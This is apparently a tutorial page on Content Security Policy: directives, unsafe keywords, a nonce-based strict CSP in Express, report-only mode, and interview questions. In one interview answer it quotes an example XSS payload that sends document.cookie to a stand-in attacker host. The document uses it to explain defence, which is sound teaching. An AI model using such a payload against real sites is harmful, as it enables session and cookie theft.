

import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

# Content Security Policy (CSP)

A **Content Security Policy (CSP)** is an added layer of security that helps detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. It is delivered via an HTTP response header or a `<meta>` tag.

:::info[Core Philosophy]
**Allowlisting over Denylisting**. Instead of trying to block all known bad actors (which is impossible), CSP operates on a default-deny model. You explicitly tell the browser exactly which origins and inline scripts are permitted to execute. If it's not on the list, the browser blocks it.
:::

---

## 1. Easy: The Structure of CSP

A CSP is a string containing multiple **directives** separated by semicolons.
-   `default-src`: The fallback policy for all resources (images, fonts, scripts).
-   `script-src`: Controls where JavaScript can be loaded and executed from.
-   `style-src`: Controls where CSS can be loaded from.



---

## 2. Medium: Common Values and Pitfalls

Directives accept specific keywords (which must be wrapped in single quotes):
-   `'self'`: Allow resources from the same origin (scheme, host, port).
-   `'unsafe-inline'`: Allows inline `<script>...</script>` and `style="..."`. **Using this defeats the main purpose of CSP against XSS.**
-   `'unsafe-eval'`: Allows the use of `eval()`. Highly discouraged.
-   `https://apis.google.com`: Explicitly allow a trusted third-party domain.

---

## 3. Hard: Implementation and Strict CSP

A modern, highly secure CSP is called a **Strict CSP**. Instead of allowlisting dozens of domains (which can easily be bypassed if one of those domains has an open JSONP endpoint), you use cryptographic **Nonces** or **Hashes**.

<Tabs groupId="lang" queryString>
<TabItem value="js" label="JavaScript">

```javascript
// Server-side (e.g., Express.js) setting a Nonce-based Strict CSP
import crypto from 'crypto';

app.use((req, res, next) => {
  // Generate a cryptographically random nonce for every single request
  const nonce = crypto.randomBytes(16).toString('base64');
  res.locals.nonce = nonce;
  
  // The policy: "Only execute scripts that possess this exact nonce."
  // 'strict-dynamic' tells the browser: "If a nonced script injects 
  // another script dynamically, trust the injected script too."
  const csp = `script-src 'nonce-${nonce}' 'strict-dynamic' https:; object-src 'none'; base-uri 'none';`;
  
  res.setHeader('Content-Security-Policy', csp);
  next();
});
```

</TabItem>
<TabItem value="ts" label="TypeScript">

```typescript
// Client-side HTML Template Rendering
// The nonce generated by the server must be injected into the HTML.
const renderHtml = (nonce: string) => `
  <!DOCTYPE html>
  <html>
    <head>
      <!-- This script WILL execute because it has the matching nonce -->
      <script nonce="${nonce}" src="/app.bundle.js"></script>
      
      <!-- This script WILL BLOCKED (XSS attempt) because it lacks the nonce -->
      <script>alert('Hacked!');</script>
    </head>
    <body>...</body>
  </html>
`;
```

</TabItem>
</Tabs>

---

## 4. Advanced: CSP Reporting and Report-Only Mode

Deploying a CSP to an existing site will likely break it. To prevent this, use `Content-Security-Policy-Report-Only`. The browser will simulate the CSP, allow all scripts to run, but send a JSON report of every violation to a specified endpoint.

Once you have analyzed the reports and fixed your code to comply with the policy, you switch to the enforcing `Content-Security-Policy` header.

---

## 5. Interview Prep: 4 Key Questions

### Q1: Why is `'unsafe-inline'` considered dangerous?
**A:** Because it allows any inline script on the page to execute. If an attacker manages to inject `<script>fetch('attacker.com/?cookie='+document.cookie)</script>` via a stored XSS vulnerability, the browser will execute it. A strong CSP removes `'unsafe-inline'` so that only external scripts from trusted domains (or scripts with a specific nonce) can run.

### Q2: What does the `'strict-dynamic'` keyword do?
**A:** `'strict-dynamic'` is used in modern Strict CSPs. It tells the browser to trust any script that is dynamically created and injected by an already-trusted script. This is crucial for modern bundlers (like Webpack) and analytics scripts (like Google Analytics) which load additional chunks dynamically at runtime.

### Q3: What happens if an attacker guesses your CSP nonce?
**A:** If they guess it, they can inject a script with that nonce and achieve XSS. However, a nonce is a cryptographically secure, base64-encoded random string (at least 128 bits) that is **regenerated on every single HTTP request**. Guessing it is statistically impossible.

### Q4: Explain the purpose of `object-src 'none'` and `base-uri 'none'`.
**A:** `object-src 'none'` prevents the injection of Flash or Java applets (`<object>`, `<embed>`, `<applet>`), which historically had their own execution contexts that could bypass CSP. `base-uri 'none'` prevents an attacker from injecting a `<base href="...">` tag, which could hijack relative URL resolutions and force the page to load scripts from the attacker's domain.
